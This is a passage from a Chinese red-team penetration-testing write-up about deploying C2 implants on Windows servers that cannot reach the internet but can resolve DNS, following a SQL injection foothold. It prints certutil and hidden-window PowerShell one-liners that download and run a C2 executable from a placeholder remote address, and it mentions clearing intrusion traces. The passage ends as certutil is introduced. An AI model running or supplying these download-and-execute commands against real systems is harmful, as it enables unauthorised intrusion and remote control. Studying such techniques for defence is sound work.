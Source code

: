 # 2# 情况分析

怎么判断不出网但能 DNS 解析呢？如下图：

[![](assets/1707954388-e9699da104680dd0287e5c596ebb815d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204180840-5eaa1688-c345-1.png)

通常来说，在红蓝攻防中 Web 打点成功后，一般会上传 C2 并上线清理入侵痕迹，然后再去搜索敏感文件以及对内网资产进行探查。

**上传 C2 到服务器一般有以下操作（针对 Win）：**

1.  **通过 WebShell 上传 C2 文件并执行**
2.  **通过 `Certutil` 远程下载 C2 文件并执行**
3.  **通过 `PowerShell` 远程下载 C2 文件并执行**

通过 `Certutil` 远程下载 C2 文件并执行

```bash
certutil -urlcache -gmt -split -f http://C2文件远程地址 C2 文件名.exe && C2 文件名.exe 执行参数
```

通过 `PowerShell` 远程下载 C2 文件并执行

```bash
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://C2 文件远程地址','C2 文件名.exe') && C2 文件名.exe 执行参数
```

但我们目前的情况是不出网，那就意味着无法通过公网直接下载可执行文件，也无法正常上线 C2 服务，在这种 SQL 注入恶劣环境我们该何去何从呢？

这种情况，写入可执行文件都很难了，上线 C2 都基本不可能了，更别说提权和内网渗透了。。

# 3# 骚操作开始

我刚开始也卡了半天，没有权限写 Web 目录（意味着写不了 Webshell），登录网站后台也没有什么功能点（没有文件上传、没有文件包含），不出网也就无法下载相关的可执行文件，让我一时半会没了方向。

摸了几天，同时也请教了不少大佬，感觉都没思路了，突然想起来我之前这篇文章： [《苛刻条件下:C2 上传执行骚姿势》](https://blog.zgsec.cn/archives/158.html) ，于是我有了一个大胆的想法，我决定尝试一下

我们再来复习一下 Windows 系统的自带工具：`Certutil`

`certutil.exe` 是一个合法 Windows 文件，用于管理 Windows 证书的程序。

微软官方是这样对它解释的：
